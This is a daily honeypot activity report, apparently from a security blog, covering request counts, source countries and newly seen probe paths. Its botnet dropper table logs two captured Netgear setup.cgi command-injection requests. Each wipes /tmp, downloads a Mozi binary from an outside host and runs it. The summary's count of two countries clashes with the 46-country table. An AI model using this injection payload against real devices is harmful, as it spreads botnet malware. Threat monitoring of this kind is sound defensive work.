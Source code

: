 ```yaml
---
title: "Report: 2025-04-14 "
date: 2025-04-14
desciption: "Report: 2025-04-14" 
tags: [repport, daily]
---
```



# Daily Report: 2025-04-14 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 2 stage 1 IP address(es), linked to 2 dropper URL(s).  

There are 13 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 2322 requests were recorded during the day, originating from 2 different countries, with a peak of 554 requests coming from GB.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Dubai              |
| US               | Dubai              |
| CN               | Georgia            |

## botnet_dropper_behaviour
| remote_addr    | request                                                                                                                                                                       |
|:---------------|:------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 59.182.104.246 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://59.182.104.246:35249/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0 |
| 115.60.215.88  | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://115.60.215.88:43368/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0  |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                         |
|----:|----------------------:|:------------------------------------------------|
|  28 |                     5 | GET /F58rYqB/ HTTP/1.1                          |
| 311 |                     1 | GET /OdinHttpCall1744661762 HTTP/1.1            |
| 312 |                     1 | GET /Odin/http/call1744661762 HTTP/1.1          |
| 347 |                     1 | GET /odinhttpcall1744661762 HTTP/1.1            |
| 477 |                     1 | GET /7vMb HTTP/1.1                              |
| 483 |                     1 | GET /nmaplowercheck1744594891 HTTP/1.1          |
| 524 |                     1 | GET /nmaplowercheck1744594892 HTTP/1.1          |
| 527 |                     1 | GET /NmapUpperCheck1744594891 HTTP/1.1          |
| 532 |                     1 | GET /NmapUpperCheck1744594892 HTTP/1.1          |
| 533 |                     1 | GET /Nmap/folder/check1744594891 HTTP/1.1       |
| 534 |                     1 | GET /Nmap/folder/check1744594892 HTTP/1.1       |
| 608 |                     1 | GET /2018/wp-includes/wlwmanifest.xml HTTP/1.1  |
| 655 |                     1 | GET /media/wp-includes/wlwmanifest.xml HTTP/1.1 |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   554 | GB                 |
|  1 |                   300 | NL                 |
|  2 |                   293 | SC                 |
|  3 |                   279 | US                 |
|  4 |                   233 | BG                 |
|  5 |                   140 | DE                 |
|  6 |                    93 | PL                 |
|  7 |                    89 | CN                 |
|  8 |                    49 | IN                 |
|  9 |                    38 | HK                 |
| 10 |                    34 | RU                 |
| 11 |                    34 | CA                 |
| 12 |                    25 | IL                 |
| 13 |                    21 | JP                 |
| 14 |                    19 | FR                 |
| 15 |                    15 | UA                 |
| 16 |                    12 | SG                 |
| 17 |                    11 | RO                 |
| 18 |                     9 | VN                 |
| 19 |                     8 | CH                 |
| 20 |                     6 | ZA                 |
| 21 |                     6 | KR                 |
| 22 |                     6 | BE                 |
| 23 |                     5 | TR                 |
| 24 |                     5 | SE                 |
| 25 |                     4 | PT                 |
| 26 |                     3 | IT                 |
| 27 |                     3 | NO                 |
| 28 |                     3 | MC                 |
| 29 |                     3 | CZ                 |
| 30 |                     3 | AO                 |
| 31 |                     2 | TH                 |
| 32 |                     2 | ID                 |
| 33 |                     2 | AU                 |
| 34 |                     2 | FI                 |
| 35 |                     1 | BR                 |
| 36 |                     1 | TW                 |
| 37 |                     1 | AF                 |
| 38 |                     1 | AM                 |
| 39 |                     1 | GE                 |
| 40 |                     1 | BO                 |
| 41 |                     1 | AE                 |
| 42 |                     1 | VI                 |
| 43 |                     1 | BD                 |
| 44 |                     1 | PA                 |
| 45 |                     1 | AR                 |
